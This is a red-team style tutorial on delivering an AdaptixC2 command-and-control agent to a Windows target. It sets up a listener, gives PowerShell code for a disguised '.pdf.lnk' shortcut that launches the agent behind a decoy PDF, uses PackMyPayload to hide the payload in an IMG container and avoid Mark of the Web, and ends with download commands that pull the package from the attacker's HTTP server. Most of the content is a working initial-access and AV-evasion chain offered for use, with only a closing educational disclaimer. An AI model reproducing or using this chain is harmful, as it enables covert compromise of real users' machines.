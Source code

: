 # 

# Execution method Agent C2

## Introduction

In this post I am going to describe a way how an attacker or members of a Red Team can elaborate a malicious file and be executed in the target machine in order to gain access without being detected by the antivirus.
For this post I have used the Command and Control AdaptixC2, I will not go into depth on how to install it because in the documentation itself is well detailed the process. Although if you encounter any problems when installing the GO version I recommend you to download the package directly from the official website here.
I leave the repository of AdaptixC2 [here](https://github.com/Adaptix-Framework/AdaptixC2) and its documentation [here](https://adaptix-framework.gitbook.io/adaptix-framework).

## Listener and Agent creation

Once we have executed the server and the client, the client interface will appear, the first thing we must do is to create a listener to which our generated agent will connect later.
For this Post I am going to use a listener of HTTP type, for it we must click in the left superior corner in the icon of the helmets.

![image.png](image.png)

Once the listeners tab is open, right click > Create and the following window will appear:

![image.png](image%201.png)

From here we can configure our listener, for this test I have only made changes in the Main settings tab, but you can also configure the HTTP headers, an error page and the Payload page.
We indicate a name and add the ip of the machine where the server is running and a port, at the end it should look something like this:

![image.png](image%202.png)

To finish this step we only need to generate the agent, to do so we right click on the listener just created.

![image.png](image%203.png)

The following window will appear:

![image.png](image%204.png)

For this test I have not made any changes, but as you can see we can modify the architecture, the type of format, the Sleep field, when we want the remote connection to end and the active time of the agent.
We click on Generate and save our agent.

## Shell Link

For the execution of our agent I am going to use a .lnk file generated with PowerShell which will execute our agent and a pdf that we want to show to the target user as a decoy.

This option is interesting because even if the user has enabled the option to view the extension in the browser, the .lnk extension will not be visible.

```bash
$wsh = New-Object -ComObject WScript.Shell
$lnk = $wsh.CreateShortcut("C:\Payloads\Documento.pdf.lnk")

$lnk.TargetPath = "%COMSPEC%"

$lnk.Arguments = "/C start agent.64.exe && start Documento.pdf"

$lnk.IconLocation = "C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe,13"
$lnk.Save()
```

If the pdf icon is not displayed it can be changed by clicking on properties and change icon.

![image.png](image%205.png)

## Container

Once we have the three files: Document.pdf(decoy), Agent.64.exe(payload) and Document.pdf.lnk(trigger) we pack them in a single zip file to avoid having to send multiple files to the target.

Mark of the web(MotW) is a zone identifier that is used to mark files downloaded from the Internet as potentially unsafe.  This can be seen in a file by viewing its properties in Explorer or using PowerShell.

![image.png](image%206.png)

![image.png](image%207.png)

Some archive formats support hidden files, and some do not propagate MotW.  [This repository](https://github.com/nmantani/archiver-MOTW-support-comparison) by [Nobutaka Mantani](https://x.com/nmantani) contains a comparison of MotW propagations.

To pack our files I am going to use the [PackMyPayload](https://github.com/mgeeky/PackMyPayload) tool.
First I add the files to a folder.

```bash
ls -l 
total 100
-rw-r--r-- 1 root  root  80384 Jun  5 16:22 agent.x64.exe
-rw-rw-r-- 1 n1kto n1kto 13264 Jun  5  2025 Documento.pdf
-rw-rw-r-- 1 n1kto n1kto  1859 Jun  5  2025 Documento.pdf.lnk
```

And I pack them in an IMG format file hiding agen.exe and Document.pdf using the `-H` parameter.

```bash
python3 PackMyPayload.py -H agent.64.exe,Documento.pdf ~/Desktop/container ~/Desktop/container/package.img
```

## Delivery and execution

Finally we transfer our generated file to the target machine by raising a python server:

```bash
python -m http.server 8000
```

and in the target machine from PowerShell we download it:

```bash
 iwr -Uri http://192.168.154.128:8000/package.img -Outfile package.img
```

We open package.img and open the file it contains, thus producing the connection of the agent with our Command and control and all this with Windows Defender activated.

![image.png](image%208.png)

![image.png](image%209.png)

![image.png](image%2010.png)

I remind you that this post is for educational and ethical purposes and should not be used for illegal purposes.
